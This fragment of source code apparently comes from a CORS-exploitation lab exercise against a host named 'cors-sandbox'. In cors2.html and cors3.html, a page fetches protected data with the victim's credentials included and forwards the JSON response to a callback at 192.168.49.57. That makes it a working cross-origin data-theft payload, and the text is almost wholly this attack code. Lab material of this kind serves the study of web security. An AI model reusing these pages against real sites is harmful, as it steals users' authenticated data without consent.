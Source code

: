 ```
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```

cors2.html

```
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.49.57/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
  });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```

cors3.html

```
<html>
<head>
<script>
var url = "https://cors-sandbox/exercise1";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.49.57/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
  });
  });
}

get_code();
</script>
```